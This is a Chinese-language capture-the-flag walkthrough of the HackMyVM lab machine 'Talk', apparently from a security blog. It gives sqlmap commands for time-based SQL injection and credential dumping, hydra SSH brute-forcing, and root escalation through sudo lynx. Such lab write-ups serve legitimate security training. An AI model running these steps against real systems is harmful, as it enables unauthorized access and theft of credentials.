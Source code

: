 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/LcYEmZEIXpQaek0mubCpMg)

 ![](http://mmbiz.qpic.cn/mmbiz_png/7gUQD4TbLUsGamtQXiblwiaPhT11gUfcWibGaGzbdzpL0N1UGmGdGP78y7DW7sCUOicTibjbBZHrHewj9uP2Tx3yPiaw/0?wx_fmt=png) ** 伏波路上学安全 ** 专注于渗透测试、代码审计等安全技术，分享安全知识. 59篇原创内容   公众号

![图片](https://mmbiz.qpic.cn/mmbiz_png/7gUQD4TbLUugfcmhRRO2Cm9qMJ3llghA1tveHTGCaH6E4I2amA4Aj6XALvxavIia4tqprlLqR50XicR6FqbDeQHQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)
=========================================================================================================================================================================

靶机信息
----

下载地址:

```
https://hackmyvm.eu/machines/machine.php?vm=Talk  
网盘链接：https://pan.baidu.com/s/1MYO7cEOg2xou1FrC40v6qg?pwd=ja7r
```

靶场: HackMyVm.eu

靶机名称: Talk

难度: 简单

发布时间: 2021年2月18日

提示信息:

```
无
```

目标: user.txt和root.txt

  

实验环境
----

```
攻击机:VMware kali 10.0.0.3 eth0桥接互联网，eth1桥接vbox-Host-Only  
  
靶机:Vbox linux IP自动获取 网卡host-Only
```

  

信息收集
----

### 扫描主机

扫描局域网内的靶机IP地址

```
sudo nmap -sP 10.0.0.1/24
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

扫描到主机地址为10.0.0.109

### 扫描端口

扫描靶机开放的服务端口

```
sudo nmap -sC -sV -p- 10.0.0.109 -oN nmap.log
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

扫描到22和80端口。

Web渗透
-----

访问80端口

```
http://10.0.0.109
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

访问后来到登录框。看到登录口先做sql注入，同时扫描目录。

### SQL注入攻击

```
sqlmap -u 'http://10.0.0.109:80/login.php' --data='username=admin&password=123' --cookie='PHPSESSID=bqv6umm0mof52bohen8dv0a1h2' --batch
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

检测到存在时间注入，继续获取数据库名

```
sqlmap -u 'http://10.0.0.109:80/login.php' --data='username=admin&password=123' --cookie='PHPSESSID=bqv6umm0mof52bohen8dv0a1h2' --batch --dbs
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

拿到数据库chat，再来查表名

```
sqlmap -u 'http://10.0.0.109:80/login.php' --data='username=admin&password=123' --cookie='PHPSESSID=bqv6umm0mof52bohen8dv0a1h2' --batch -D chat --tables
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

拿到表名，来查一下user表下的数据

```
sqlmap -u 'http://10.0.0.109:80/login.php' --data='username=admin&password=123' --cookie='PHPSESSID=bqv6umm0mof52bohen8dv0a1h2' --batch -D chat -T user --dump
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

拿到账号密码，来看看目录扫描的结果

```
gobuster dir -u http://10.0.0.109 -w ../../Dict/SecLists-2022.1/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt,zip
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

没找到可利用的文件，登录到系统看看

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

## SSH密码暴破

登录后只有一个聊天窗口，没找到可利用的信息。将帐号和密码分开保存尝试暴破SSH

```
hydra -L user.txt -P pass.txt 10.0.0.109 ssh
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

有3个账号可以登录SSH，找一组先登录进去试试

```
ssh david@10.0.0.109
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

找到nona用户目录下有user.txt和flag.sh文件，切换到nona用户

```
su nona
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

拿到user.txt，来看看flag.sh是什么

```
cat flag.sh
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

没什么用，再来找找提权信息

```
sudo -l
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

权限提升
----

找到可以使用root身份执行lynx命令，先看下lynx如何提权，在搜索引擎中找到lynx的使用方法，这是一个命令行下的浏览器

```
https://ywnz.com/linux/lynx/
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

使用!感叹号可以返回shell，验证下

```
sudo lynx
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

输入！感叹号

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

提权成功，来找一下flag

```
cd /root  
ls  
cat root.txt
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

拿到root.txt，游戏结束

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)